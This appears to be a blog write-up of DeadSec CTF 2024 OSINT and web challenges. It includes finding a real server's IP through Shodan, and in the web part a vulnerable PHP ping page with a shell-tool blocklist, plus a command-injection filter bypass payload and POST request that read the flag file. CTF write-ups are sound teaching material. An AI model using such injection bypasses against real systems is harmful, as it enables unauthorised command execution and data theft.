 ```yaml
---
title: 'DeadSec CTF 2024'
date: 2024-07-27
permalink: /posts/2024/07/deadsecctf/
tags:
  - web
  - osint
  - misc
---
```


Introduction
=====
<div style="text-align: center;">
  <img src="/images/deadsec2024.png" alt="DeadSec2024" />
</div>
DeadSec CTF 2024 is an online jeopardy-style CTF organized by DeadSec Team.
There will be challenges with a wide range of difficulty mainly from cryptography, reverse, pwn, web, misc...

***I cleared(n't) all Osint Challenge***

# Osint

* **Windows Server**
> Author: Onsra03

    This challenge provides an image
    <div style="text-align: center;">
        <img src="/images/chall1-ds.png" alt="Challenge" />
    </div>
    <br>
    We can see this image shows a login screen for **Windows Server 2008 R2 Enterprise**. It has 3 users: admin, *Leanrdo*, and guest. I focused on user `Leandro Couto Nunes` and looked at him on various popular social media sites, but there was no result. I remembered a website called [Shodan](https://www.shodan.io/) that can help me find everything related to Internet-connected devices. Finally, I found his computer's IP.
    <div style="text-align: center;">
        <img src="/images/shodan-ds.png" alt="Challenge" />
    </div>
    <br>
    <div style="text-align: center;">
        <img src="/images/rerult-chall1-ds.png" alt="Challenge" />
    </div>

    > FLAG: dead{187.17.201.3_abcrede provedor de internet ltda_as28265}


* **Who Is That Man?**
> Author: Onsra03

    The second challenge provides an image
    <div style="text-align: center;">
        <img src="/images/chall2.png" alt="Challenge" />
    </div>
    <br>
    We can see that this image shows a place. When I search on Google, I can't find anything related to this place, so I use [Yandex](https://yandex.com/), the best search engine in Russia, to find the most characteristic building.
    <div style="text-align: center;">
        <img src="/images/colorbuilding-ds.png" alt="Challenge" />
    </div>
    <br>
    But I can't find it because this area has many of the same buildings. I changed the target of the building to have a signboard, and here is the result:
    <div style="text-align: center;">
        <img src="/images/yandex-ds.png" alt="Challenge" />
    </div>
    <br>
    <div style="text-align: center;">
        <img src="/images/yandexmap-ds.png" alt="Challenge" />
    </div>
    <br>
    After that, I used a Yandex map to find exactly where this picture was taken.
    <div style="text-align: center;">
        <img src="/images/flag-chall2-ds.png" alt="Challenge" />
    </div>
    <br>
    
    > FLAG: dead{username-in-Eng} #so lazy to translate again

    > With 3 parts of Financial Supporter, which I will update later. And now, we continue to analyze some web challenges that I collected on Discord.
# Web

* **Bing2**
> Author: Onsra

    This was a web challenge. We were provided certain files for the web server, including "bing.php".
    
    ```
    <?php if (isset($_POST['Submit'])) {
	$target = trim($_REQUEST['ip']);
	$substitutions = array(
		' ' => '',
		'&'  => '',
		'&&' => '',
		'('  => '',
		')'  => '',
		'-'  => '',
		'`'  => '',
		'|' => '',
		'||' => '',
		'; ' => '',	
		'%' => '',
		'~' => '',
		'<' => '',
		'>' => '',
		'/ ' => '',
		'\\' => '',
		'ls' => '',
        'cat' => '',
        'less' => '',
        'tail' => '',
        'more' => '',
        'whoami' => '',
        'pwd' => '',
        'busybox' => '',
        'nc' => '',
        'exec' => '',
        'sh' => '',
        'bash' => '',
        'php' => '',
        'perl' => '',
        'python' => '',
        'ruby' => '',
        'java' => '',
        'javac' => '',
        'gcc' => '',
        'g++' => '',
        'make' => '',
        'cmake' => '',
        'nmap' => '',
        'wget' => '',
        'curl' => '',
        'scp' => '',
        'ssh' => '',
        'ftp' => '',
        'telnet' => '',
        'dig' => '',
        'nslookup' => '',
        'iptables' => '',
        'chmod' => '',
        'chown' => '',
        'chgrp' => '',
        'kill' => '',
        'killall' => '',
        'service' => '',
        'systemctl' => '',
        'sudo' => '',
        'su' => '',
        'flag' => '',
	);
	$target = str_replace(array_keys($substitutions), $substitutions, $target);
	if (stristr(php_uname('s'), 'Windows NT')) {
		$cmd = shell_exec('ping  ' . $target);
	} else {
		$cmd = shell_exec('ping  -c 4 ' . (string)$target);
        echo $cmd;
	}
	```
    Read this source code; I realize the vulnerability here is command injection into *ping* command. But it has many filters; I need to bypass them. With the **space**, I can use `${IFS}` (Internal Field Separator)  to bypass; with the **cat** command, I can use `'` character inserted between letters; this bypasses the filter, but the command still executes. Finally, use the `*` which called wildcard to bypass the **flag** word. Conclusion: My payload is
    >### **;c'a't${IFS}/fla***

    ```
    POST /bing.php HTTP/2

    ip=;c'a't${IFS}/fla*&Submit=Submit
    ```
    *Remember, `submit` parameter is required*

    Send request and get flag!
    >Flag: DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}
